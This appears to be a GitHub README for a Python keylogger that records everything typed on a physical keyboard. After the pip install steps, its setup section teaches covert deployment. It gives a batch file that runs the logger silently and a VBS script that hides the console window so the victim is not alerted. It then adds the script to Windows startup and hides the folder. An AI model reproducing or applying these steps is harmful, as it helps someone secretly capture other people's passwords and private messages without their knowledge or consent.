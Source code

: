 
# Key Logger

A basic key logger which will captures all the detail typed by physical Keyboard
## Tech Stack

 Python 


## Installation

Open Terminal

```bash
python3 -m pip install --upgrade pip
```
Check the pip version
```bash
pip --version
```
If version is showing you're good to go.  


Necessary pip modules 

```bash
pip install pynput

```
Check whether modules are installed properly or not
```bash
pip show pynput

```
If the details are showing you've installed all the necessary modules
## Setup

To deploy this project in a sneak way follow the instructions

*Create a folder here say ```open_it``` and execute the below instructions in it*

### Create a bat file

Copy the below snippet and make changes as said

```bash
@echo off
pythonw.exe "C:\path\to\your\keylogger.py"

```
Save as ```logger.bat```

Why? Whenever the user logs in cmd prompt will come up on screen and the program will start running

### Create a vbs script file

Copy the below snippet and make changes as said

```bash
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "C:\path\to\your\keylogger.bat", 0, False

```
Save as ```logger.vbs```

Why? If the user sees the cmd prompt up opening he will be on alert so this file is to make it physically invisible from the screen

### Add it to Startup apps 

Press ```WIN + R```

Create a shortcut file for ```logger.vbs```

### Final Step 

Lock and Hide the ```open_it``` folder.
